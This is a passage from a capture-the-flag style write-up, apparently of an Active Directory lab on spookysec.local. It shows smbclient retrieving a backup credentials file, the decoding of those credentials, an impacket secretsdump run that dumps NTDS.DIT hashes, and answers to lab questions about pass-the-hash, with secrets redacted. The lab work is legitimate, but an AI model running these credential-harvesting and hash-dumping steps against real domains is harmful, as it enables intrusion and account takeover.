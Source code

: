 None except one really stands out.

```
┌──(kali㉿kali)-[/tmp]
└─$ smbclient //10.10.99.177/{i wonder which share!} -U spookysec.local/{user1}
Enter SPOOKYSEC.LOCAL\{user1}'s password: 
Try "help" to get a list of possible commands.
smb: \> ls
  .                                   D        0  Sat Apr  4 15:08:39 2020
  ..                                  D        0  Sat Apr  4 15:08:39 2020
  backup_credentials.txt              A       48  Sat Apr  4 15:08:53 2020

                8247551 blocks of size 4096. 3630842 blocks available
smb: \> get backup_credentials.txt
getting file \backup_credentials.txt of size 48 as backup_credentials.txt (0.0 KiloBytes/sec) (average 0.0 KiloBytes/sec)
```

As its too easy!

```
┌──(kali㉿kali)-[/tmp]
└─$ cat backup_credentials.txt 
{looks like a decoded string ... I wonder which method was used to encode}
```

Using [CyberChef](http://icyberchef.com/), `{item2}@spookysec.local:{another password!}`

## 7. Domain Priv-Esc

```
┌──(kali㉿kali)-[~/Desktop/tools/impacket/examples]
└─$ python3 secretsdump.py spookysec.local/{item2}:{yeee hawww}@10.10.99.177                    
Impacket v0.9.23.dev1+20210519.170900.2f5c2476 - Copyright 2020 SecureAuth Corporation

[-] RemoteOperations failed: DCERPC Runtime Error: code: 0x5 - rpc_s_access_denied 
[*] Dumping Domain Credentials (domain\uid:rid:lmhash:nthash)
[*] Using the DRSUAPI method to get NTDS.DIT secrets

{there were a lot of hashes here. Removed because they were taking too much space ;) }

[*] Cleaning up... 
```

#### What method allowed us to dump NTDS.DIT?
Check the output of the script we ran. Usually, interesting information is given in a line, starting with `[*]`

#### What is the Administrators NTLM hash?
Same as above. Use the dumps first line and use the structure mentioned in the info line.

#### What method of attack could allow us to authenticate as the user without the password?
`pass the hash`
